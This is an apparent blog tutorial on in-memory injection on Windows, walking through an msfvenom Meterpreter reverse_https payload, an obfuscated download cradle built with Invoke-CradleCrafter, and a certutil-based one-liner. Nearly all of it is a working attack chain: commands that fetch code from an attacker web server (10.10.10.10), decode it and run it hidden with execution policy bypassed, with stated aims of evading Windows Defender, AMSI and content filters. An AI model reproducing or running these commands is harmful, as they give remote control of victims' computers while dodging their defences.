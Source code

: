 ```yaml
---
title: "PowerShell: In-Memory Injection Using CertUtil.exe"
date: "2022-05-18"
description: "Using PowerShell, `Invoke-CradleCrafter` and Microsoft’s Certutil.exe to craft a payload and one-liner that can be used to evade the latest version of Windows Defender (as of this writing)."
coverimage: PowerShell_In_Memory_Injection_Using_CertUtil_exe.jpg
tags: certutil, powershell
published: true
posttype: tutorial
---
```

- PowerShell is still one of the easiest and best ways to gain a foothold, but at the same time, it is selling you out because it talks to AMSI as soon as it’s run.
- The beauty of this method is that Microsoft’s `certutil` does the network call out to your primary payload while appearing to be an innocent certificate file.

**Pre-Requisites**

- Download `Invoke-CradleCrafter` from GitHub.

**Methodology**

1. First, we will create a base64 encoded PowerShell Meterpreter payload by performing the following:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<YOUR IP HERE> LPORT=443 -e cmd/powershell_base64 -f psh -o b64_pwsh.txt
```

<div class="card-body es-lightbulb"><p>
**Note** that the payload file’s extension could be anything as long as `certutil` can get at it and read its content. For example, an organization may have a policy (or IDS, content filter, etc.) that does not allow the downloading of scripts; however, they probably allow .txt files or even files with abnormal extensions. If you change it, make sure you compensate for that when setting the URL in `Invoke-CradleCrafter`</p>
</div>


1. Next, you will create a folder used to serve up web content. Place the PowerShell Meterpreter PowerShell script (`b64_pwsh.txt`) inside this folder.
2. Next, we will use `Invoke-CradleCrafter` to obfuscate our `certutil` and PowerShell commands used to perform the in-memory injection. Drop into a PowerShell prompt on your Linux host by typing `pwsh` or `powershell`.  Then `cd` into your `Invoke-CradleCrafter` directory.

```powershell
Import-Module .\Invoke-CradleCrafter.psd1; 
Invoke-CradleCrafter
Invoke-CradleCrafter> SET URL http://10.10.10.10/b64_pwsh.txt
Invoke-CradleCrafter> MEMORY
Invoke-CradleCrafter> CERTUTIL
```

1. Next, you will be presented with your obfuscation options. Select **ALL** by typing it on the command line and then typing **1** to execute.

```
:::powershell
Invoke-CradleCrafter> ALL
Invoke-CradleCrafter> 1
```

1. Once generated, we now have a PowerShell cradle with obfuscation that can pull in our `b64_pwsh.txt` payload. We now want to put this into a text file such as `output.txt` for encoding. 
2. We will encode this file in base64 using the `certutil` to create a file called `cert.cer` which will end up on our web server next to the `b64_pwsh.txt`.

```
certutil -encode output.txt cert.cet
```

1. We can now use the following one-liner to pull our `cert.cer` certificate from our web server; the certificate gets decoded and saved to the disk as `stager.ps1`. The file `stager.ps1` is then executed (this is the content of the cradle we made earlier with `Invoke-CradleCrafter`), and when it runs, it pulls the `b64_pwsh.txt` file down from the server and executes it to give us a Metasploit Meterpreter session.  

```
:::powershell
powershell.exe -Win hiddeN -Exec ByPasS add-content -path %APPDATA%\cert.cer (New-Object Net.WebClient).DownloadString('http://10.10.10.10/cert.cer'); certutil -decode %APPDATA%\cert.cer %APPDATA%\stager.ps1 & start /b cmd /c powershell.exe -Exec Bypass -NoExit -File %APPDATA%\stager.ps1 & start /b cmd /c del %APPDATA%\cert.cer
```

<div class="card-body es-warning"><p> **NOTE** that the `cert.cer` file will be deleted by the script; however, you will need to remove the `stager.ps1` file manually.</p>
</div>